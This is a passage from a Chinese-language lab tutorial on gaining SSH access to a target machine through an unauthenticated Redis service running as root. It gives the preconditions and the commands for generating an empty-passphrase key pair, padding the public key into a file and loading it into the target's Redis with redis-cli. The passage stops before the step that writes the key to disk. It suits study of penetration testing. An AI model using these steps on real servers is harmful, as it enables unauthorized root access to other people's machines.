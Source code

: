 -   Redis 服务使用 ROOT 账号启动
    
-   服务器开放了 SSH 服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
    

**实例**

1.  靶机中开启 redis 服务：`redis-server /etc/redis.conf`
    
2.  在靶机中执行 `mkdir /root/.ssh` 命令，创建`ssh`公钥存放目录
    

在攻击机中生成 ssh 公钥和私钥，密码设置为空：

```bash
ssh-keygen -t rsa
```

[![](assets/1702372985-2ec4bff025afb91fefe6574e56cafe3a.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/12.png)

进入`.ssh`目录：`cd .ssh/`，将生成的公钥保存到`test.txt`：

```bash
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo e "\n\n") > test.txt
```

[![](assets/1702372985-3c00587120fb794b50b2beaddd49a7f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/13.png)

链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```bash
  cat test.txt | redis-cli -h <hostname> -x set test
```

[![](assets/1702372985-2d9ca6626d4f6080d6b2fed658fcd899.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/14.png)
